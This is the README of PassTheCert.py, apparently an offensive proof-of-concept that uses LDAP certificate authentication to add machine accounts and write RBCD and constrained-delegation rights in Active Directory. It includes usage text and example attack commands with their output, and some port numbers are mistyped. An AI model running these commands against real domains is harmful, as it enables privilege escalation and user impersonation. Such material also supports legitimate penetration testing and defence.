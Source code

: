 PassTheCert.py
==============

This POC implements LDAP certificate authentication for two impacket scripts:
[addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
and [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py).
You can perform LDAP certificate authentication both on port 686 and 389 (via a
StarTLS command). Please note that you need a functional LDAPS service on the
targeted domain controller to successfully use StartTLS on the LDAP port.

More information in the [accompanying blog post](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html).

If you use [Certipy](https://github.com/ly4k/Certipy) to retrieve certificates, you can extract key and cert from the pfx by using:

```console
$ certipy cert -pfx user.pfx -nokey -out user.crt
$ certipy cert -pfx user.pfx -nocert -out user.key
```

Usage
-----

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

usage: passthecert.py [-h] [-debug] [-port {389,636}] [-action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd}]] [-baseDN DC=test,DC=local]
                      [-computer-group CN=Computers] [-domain test.local] [-domain-netbios NETBIOSNAME] [-computer-name COMPUTER-NAME$] [-computer-pass password] [-delegate-to DELEGATE_TO]
                      [-delegate-from DELEGATE_FROM] [-dc-host hostname] [-dc-ip ip] -crt user.crt -key user.key

Manage domain computers and perform RBCD attack via LDAP certificate authentication

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -port {389,636}       Destination port to connect to. LDAPS (via StartTLS) on 386 or LDAPS on 636.

Action:
  -action [{add_computer,del_computer,modify_computer,read_rbcd,write_rbcd,remove_rbcd,flush_rbcd}]

Manage Computer:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP.If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers
                        Group to which the account will be added. If omitted, CN=Computers will be used,
  -domain test.local    Target domain fqdn
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name COMPUTER-NAME$
                        Name of computer to add.If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computerIf omitted, a random [A-Za-z0-9]{32} will be used.
  -delegated-services PROTO/FQDN,...
                        Constrained delegated services to configure in the new computer object (no space in the list).
RBCD attack:
  -delegate-to DELEGATE_TO
                        Target computer account the attacker has at least WriteProperty to
  -delegate-from DELEGATE_FROM
                        Attacker controlled machine account to write on the msDS-Allo[...] property (only when using `-action write`)

Authentication:
  -dc-host hostname     Hostname of the domain controller to use. If ommited, the domain part (FQDN) specified in the account parameter will be used
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.
  -crt user.crt         User's certificate
  -key user.key         User's private key
```

Actions
-------
* Manage Comuter
  * `add_computer`: Add a computer to the domain
  * `del_computer`: Delete a computer from the domain
  * `modify_computer`: Modify the password of the computer


* Contrained delegation attack
  * `add_computer -delegated-services`: Add a computer configured with contrained delegated services store in `msDS-AllowedToDelegateTo` new computer's attributes.


* RBCD attack
  * `read_rbcd`: Read `msDS-AllowedToActOnBehalfOfOtherIdentity` and resolve SIDs to `sAMaccountnames`
  * `write_rbcd`: Write new SIDs to `the msDS-AllowedToActOnBehalfOfOtherIdentity`
  * `remove_rbcd`: Remove specific entries
  * `flush_rbcd`: Flush all entries


* Misc
  * `whoami`: Return the user represented by the certificate

Examples
--------

Create a computer via LDAPS:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account DESKTOP-CKDRXFUX$ with password dzy3pjZqEH6f4Igql5dp4I5Dx8uA4PrV.
```

Create a computer via LDAPS with custom name/password:

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -computer-pass SheSellsSeaShellsOnTheSeaShore
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account OFFSECMACHINE$ with password SheSellsSeaShellsOnTheSeaShore.
```

Create a computer via LDAPS with custom name and with constrained delegated services configured (cifs and ldap over SRV-MAIL.domain.local):

```console
$ python3 passthecert.py -action add_computer -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -computer-name OFFSECMACHINE$ -delegated-services cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
Impacket v0.10.0 - Copyright 2020 SecureAuth Corporation

[+] Adding contrained delegations to the new computer object: cifs/SRV-MAIL.domain.local,ldap/SRV-MAIL.domain.local
[*] Successfully added machine account OFFSECMACHINE$ with password kUwdbHeuTw64QvaLzUYHrjfgE7hrRigS
```

Add a delegation right via StartTLS on port 389:

```console
$ python3 passthecert.py -action write_rbcd -crt user.crt -key user.key -domain offsec.local -dc-ip 10.0.0.1 -port 389 -delegate-to DESKTOP-CKDRXFUX$ -delegate-from SRV-MAIL$
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] SRV-MAIL$ can now impersonate users on DESKTOP-CKDRXFUX$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     SRV-MAIL$    (S-1-5-21-XXXXXXXXX-YYYYYYYYYY-WWWWWWWW-1109)
```

Credits
-------

- [JaGoTu (@jagotu)](https://twitter.com/jagotu) for [addcomputer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/addcomputer.py)
- [Remi Gascou (@podalirius_)](https://twitter.com/podalirius_) and [Charlie Bromberg (@_nwodtuhs)](https://twitter.com/_nwodtuhs) for [rbcd.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py)
* [Impacket](https://github.com/SecureAuthCorp/impacket) by [SecureAuth](https://www.secureauth.com/)

